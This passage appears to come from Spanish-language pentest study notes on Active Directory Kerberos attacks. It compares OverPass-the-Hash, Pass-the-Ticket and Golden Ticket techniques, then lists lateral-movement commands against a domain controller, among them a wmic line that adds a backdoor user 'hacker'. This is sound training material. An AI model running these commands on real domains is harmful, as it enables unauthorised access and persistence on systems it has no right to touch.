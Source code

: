 | **Aspecto**                | **OverPass-the-Hash (OPtH)**                                          | **Pass-the-Ticket (PtT)**                                |
| -------------------------- | --------------------------------------------------------------------- | -------------------------------------------------------- |
| **Versatilidad**           | Generas TGTs y puedes solicitar múltiples Service Tickets.            | Limitado al ticket extraído (TGT o Service Ticket).      |
| **Persistencia**           | Más persistente, puedes regenerar tickets si tienes el hash o claves. | Dependes de que el ticket sea válido y no haya caducado. |
| **Riesgo de detección**    | Bajo si usas claves Kerberos modernas (AES).                          | Moderado: reusar un ticket puede levantar alertas.       |
| **Requisitos previos**     | Hash NTLM o claves Kerberos del usuario.                              | Acceso a un ticket ya generado en memoria (LSASS).       |
| **Interacción con el KDC** | Necesaria para generar nuevos tickets.                                | No necesaria si ya tienes el ticket.                     |
### Golden Ticket vs. OPtH

| **Aspecto**             | **OverPass-the-Hash**                                 | **Golden Ticket**                                                                  |
| ----------------------- | ----------------------------------------------------- | ---------------------------------------------------------------------------------- |
| **Requisitos previos**  | Hash NTLM (`RC4_HMAC`) o claves Kerberos (`AES`).     | Hash de la cuenta **KRBTGT** del dominio.                                          |
| **Uso principal**       | Generar un TGT válido para suplantar a un usuario.    | Crear un TGT falsificado con control total (podemos simular ser cualquier usuario) |
| **Dependencia del KDC** | Necesitamos interactuar con el KDC para generar TGTs. | No necesitamos el KDC tras crear el ticket.                                        |
| **Persistencia**        | Limitada: depende de la validez del hash/clave.       | Muy alta: el Golden Ticket no expira (salvo que cambie el hash de KRBTGT).         |
| **Nivel de acceso**     | Limitado al usuario cuyo hash/clave posees.           | Control total del dominio con permisos personalizados.                             |
## Movimientos laterales
Una vez utilizadas las técnicas de opth ó ptt, tendremos las credenciales inyectadas en memoria, por lo que tenemos varias alternativas para movernos lateralmente (en muchas ocasiones tendremos acceso a recursos que no teníamos antes de inyectar las credenciales)
#### PowerShell Remoting (WinRM)
Tras acceder a powershell:
```powershell
Enter-PSSession -ComputerName DC01
```
#### WMI 
Podríamos crear un proceso en el sistema remoto utilizando `process call create`:
```powershell
wmic /node:"DC01" process call create "cmd.exe /c net user hacker Password123 /add"
```
#### SMB
Podríamos tener acceso a recursos en red nuevos: 
```powershell
net use \\DC01\C$
```
#### PsExec con el contexto autenticado
```powershell
PsExec.exe \\DC01 -s cmd.exe
```
#### RDP
```
xfreerdp /v:DC01
```
